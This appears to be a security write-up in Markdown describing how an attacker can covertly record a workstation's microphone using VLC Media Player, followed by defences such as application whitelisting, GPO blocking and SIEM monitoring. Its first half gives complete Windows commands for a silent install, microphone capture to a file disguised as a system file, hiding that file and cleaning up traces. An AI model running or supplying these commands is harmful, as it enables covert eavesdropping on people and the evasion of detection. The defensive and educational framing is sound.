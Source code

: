 Hacking - Preventing Unauthorized Eavesdropping Using VLC Media Player
=======================================================================

Overview
--------

This document outlines a malicious process that can be used to eavesdrop on conversations using the microphone of a workstation. It also provides recommendations for organizations to prevent such unauthorized activities by blocking VLC Media Player or implementing log and event monitoring as deterrent measures.

Malicious Process
-----------------

The following commands demonstrate how an attacker can use VLC Media Player to record audio from a workstation's microphone and hide the recorded file:

1.  This command installs VLC Media Player silently, waits for 40 seconds, and then deletes the installer and any desktop shortcuts created.`  C:\vlcsetup.exe /S & ping 0.0.0.0 -n 40 >/nul & del /F /Q "%systemdrive%\Users\Public\Desktop\VLC media player\*\*" & del C:\vlcsetup.exe`
    
2. This command starts VLC in a single instance mode, captures audio from the default audio device, and saves the recording to a file named **hibernate** in the root of the C drive. The hibernate file mentioned in the commands is not a standard system file but rather a custom-named file used by the attacker to store the recorded audio. The name hibernate is chosen to make the file less conspicuous, as it might be mistaken for a system file related to hibernation. `C:\Progra~1\VideoLAN\VLC\vlc.exe --one-instance dshow:// :dshow-vdev=none :dshow-adev :sout=#transcode{vcodec=h264,scale=Auto,acodec=mpga,ab=128,channels=2,samplerate=44100}:duplicate{dst=std{access=file,mux="ogg",dst="C:\hibernate"}}`
    
3.  This command sets the **hibernate** file as hidden and system, making it less likely to be noticed by the user. `attrib +h +s C:\hibernate`
    
4.  This command deletes the **hibernate** file and forcefully terminates any Command Prompt processes. `taskkill /f /im vlc\* & ping 0.0.0.0 -n 5 >/nul & attrib -h -s C:\hibernate; del C:\hibernate & taskkill /f /im cmd\*`
     
    

Prevention Measures
-------------------

To prevent unauthorized eavesdropping using VLC Media Player, organizations can implement the following measures:

### 1\. Block VLC Media Player

*   **Application Whitelisting:** Implement application whitelisting to prevent unauthorized software, including VLC Media Player, from being installed or executed.
    
*   **Group Policy:** Use Group Policy Objects (GPO) to block the installation and execution of VLC Media Player on all workstations.
    

### 2\. Log and Event Monitoring

*   **Audit Logs:** Enable and monitor audit logs for any suspicious activities, such as the creation and deletion of files, and the execution of unauthorized processes.
    
*   **Event Monitoring:** Implement a Security Information and Event Management (SIEM) system to monitor and analyze events in real-time, allowing for quick detection and response to any unauthorized activities.
    

### 3\. User Education

*   **Training:** Educate users on the importance of not installing unauthorized software and the risks associated with phishing attacks and malicious downloads.
    
*   **Reporting:** Encourage users to report any suspicious activities or emails to the IT department.
    

Conclusion
----------

The malicious process outlined in this document highlights the potential security risks associated with unauthorized use of software like VLC Media Player. By implementing the prevention measures described, organizations can significantly reduce the likelihood of unauthorized eavesdropping and protect their sensitive information.

Regularly reviewing and updating security policies, procedures, and technologies is essential to maintain a strong security posture in the face of evolving threats.

**Disclaimer:** This document is intended for educational and informational purposes only. The misuse of the information provided can result in criminal charges brought against the persons in question. The authors will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this document to break the law.
